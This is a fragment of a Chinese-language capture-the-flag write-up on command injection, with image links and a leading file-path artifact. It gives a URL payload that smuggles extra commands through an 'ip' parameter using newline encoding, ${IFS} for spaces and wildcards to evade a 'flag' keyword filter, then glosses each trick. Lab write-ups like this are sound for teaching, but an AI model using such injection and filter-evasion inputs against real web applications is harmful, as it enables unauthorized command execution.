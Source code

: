 - ![image-20220905134836302](assets/image-20220905134836302.png)

- 第三步读取flag文件

- 构造payload

- ```
  http://challenge-9265fe3a942559ec.sandbox.ctfhub.com:10800/?ip=1%0Acd${IFS}fla*%0amore${IFS}fla*.php#
  ```

  - payload详解
    - %0a --> ；
    - %{IFS} --> " "(空格)
    - *--> 通配符，因为flag被过滤了，所以使用※代替
    - more --> cat
  - ![image-20220905183925446](assets/image-20220905183925446.png)
  - 至此，命令执行到此结束

